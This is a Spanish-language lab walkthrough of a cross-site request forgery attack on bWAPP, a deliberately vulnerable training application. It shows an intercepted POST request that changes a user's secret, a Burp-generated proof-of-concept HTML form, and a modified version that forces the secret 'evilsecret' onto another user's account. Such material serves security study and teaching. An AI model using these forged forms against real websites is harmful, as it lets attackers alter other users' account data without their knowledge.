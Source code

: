 En este caso se inercepto con burpsuite la peticion de cambio de secreto:

```http
POST /bWAPP/csrf_3.php HTTP/1.1
Host: 192.168.112.142
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://192.168.112.142
Connection: close
Referer: http://192.168.112.142/bWAPP/csrf_3.php
Cookie: PHPSESSID=ot2be2tmurfaeei6nkeiekh337; security_level=0
Upgrade-Insecure-Requests: 1

secret=hola+mundo&login=chris&action=change
```

Es una peticion post, si tiene el burpsuite professional pueden hacer click derecho a la peticion, seleccionar **Engagement tools** y escoger **Generate CSRF PoC**. Esto les creara un PoC para el ataque sino lo generan manualmente que es algo asi:

```html
<html>
	<body>
		<script>history.pushState('','','/')</script>
		<form action="http://192.168.112.142/bWAPP/csrf_3.php" method="POST">
			<input type="hidden" name="secret" value="" />
			<input type="hidden" name="login" value="chris" />
			<input type="hidden" name="action" value="change" />
			<input type="submit" value="Submit request" />
		</form>
	</body>
</html>
```

Esto lo hemos realizado nosotros en nuestra cuenta y esta con nuestros datos, debemos modificar el secreto con algo que nosotros queramos y de otro usuario valido de la web, quedando de la siguiente manera:

```html
<html>
	<body>
		<script>history.pushState('','','/')</script>
		<form action="http://192.168.112.142/bWAPP/csrf_3.php" method="POST">
			<input type="hidden" name="secret" value="evilsecret" />
			<input type="hidden" name="login" value="otro_usuario" />
			<input type="hidden" name="action" value="change" />
			<input type="submit" value="Submit request" />
		</form>
	</body>
</html>
```
